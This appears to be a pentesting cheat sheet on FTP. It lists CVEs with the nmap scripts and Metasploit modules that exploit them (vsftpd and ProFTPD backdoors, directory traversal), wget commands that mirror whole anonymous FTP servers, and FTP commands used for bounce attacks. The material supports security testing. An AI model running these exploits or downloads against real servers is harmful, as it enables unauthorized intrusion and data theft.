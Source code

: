 ![Success FTP Bounce scan example output.](media/7fa708c4063f41d313e30c2367952b5d.png)Success FTP Bounce scan example output.

Specific Vulnerabilities and Exploits, PoC’s and Nmap Scripts

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46  | \#OPIE \<= 2.4.1-test1 @ FreeBSD 6.4 – 8.1-PRERELEASE [CVE-2010-1938] nmap --script=ftp-libopie -p21 10.10.x.x  \#VSFTPD 2.3.4 [CVE-2011-2523] nmap --script=ftp-vsftpd-backdoor -p21 10.10.x.x  \#ProFTPd 1.3.3c [OSVDB 69562] nmap --script=ftp-proftpd-backdoor -p21 10.10.x.x  \#ProFTPD 1.3.2rc3 – 1.3.3b [CVE-2010-4221] nmap --script=ftp-vuln-cve2010-4221 -p21 10.10.x.x  \#Titan FTP Server \<= 8.10.1125 – Directory Traversal [CVE-2010-2426] msf \> use auxiliary/scanner/ftp/titanftp_xcrc_traversal  \#PCMan FTP Server 2.0.7 – Directory Traversal [CVE-2015-7601] msf \> use auxiliary/scanner/ftp/pcman_ftp_traversal  \#Konica Minolta FTP Utility 1.00 – Directory Traversal [CVE-2015-7603] msf \> use auxiliary/scanner/ftp/konica_ftp_traversal  \#BisonFTP Server 3.5 – Directory Traversal [CVE-2015-7602] msf \> use auxiliary/scanner/ftp/bison_ftp_traversal  \#ColoradoFTP Server \<= 1.3 Build 8 – Directory Traversal [EDB-40231] msf \> use auxiliary/scanner/ftp/colorado_ftp_traversal  \#Easy File Sharing FTP Server \<= 3.6 – Directory Traversal [CVE-2017-6510] msf \> use auxiliary/scanner/ftp/easy_file_sharing_ftp  \#VSFTPD 2.3.4 [CVE-2011-2523] msf \> use exploit/unix/ftp/vsftpd_234_backdoor  \#ProFTPD 1.3.2rc3 – 1.3.3b [CVE-2010-4221] msf \> use exploit/linux/ftp/proftp_telnet_iac  \#ProFTPD 1.3.3c [OSVDB-69562] msf \> use exploit/unix/ftp/proftpd_133c_backdoor  \#ProFTPd 1.3.5 [CVE-2015-3306] msf \> use exploit/unix/ftp/proftpd_133c_backdoor Exploit-DB: 36742.txt  \#Konica Minolta FTP Utility 1.00 – CWD Command Overflow (SEH) [CVE-2015-7768] Exploit-DB: 39215 msf \> use exploit/windows/ftp/kmftp_utility_cwd  |
|-----------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Download All Files From FTP Server

| 1 2  | wget -m ftp://anonymous:anonymous@10.10.x.x \#Donwload all wget -m --no-passive ftp://anonymous:anonymous@10.10.x.x \#Download all  |
|------|-------------------------------------------------------------------------------------------------------------------------------------|

Some FTP Commands

USER username PASS password  
HELP The server indicates which commands are supported  
PORT 127,0,0,1,0,80This will indicate the FTP server to establish a connection with the IP 127.0.0.1 in port 80 (you need to put the 5th char as “0” and the 6th as the port in decimal or use the 5th and 6th to express the port in hex).  
EPRT \|2\|127.0.0.1\|80\|This will indicate the FTP server to establish a TCP connection (indicated by “2”) with the IP 127.0.0.1 in port 80. This command supports IPv6.  
LIST This will send the list of files in current folder  
APPE /path/something.txt This will indicate the FTP to store the data received from a passive connection or from a PORT/EPRT connection to a file. If the filename exists, it will append the data.  
STOR /path/something.txt Like APPE but it will overwrite the files  
STOU /path/something.txt Like APPE, but if exists it won’t do anything.  
RETR /path/to/file A passive or a port connection must be establish. Then, the FTP server will send the indicated file through that connection  
REST 6 This will indicate the server that next time it send something using RETR it should start in the 6th byte.  
TYPE i Set transfer to binary  
PASV This will open a passive connection and will indicate the user were he can connects
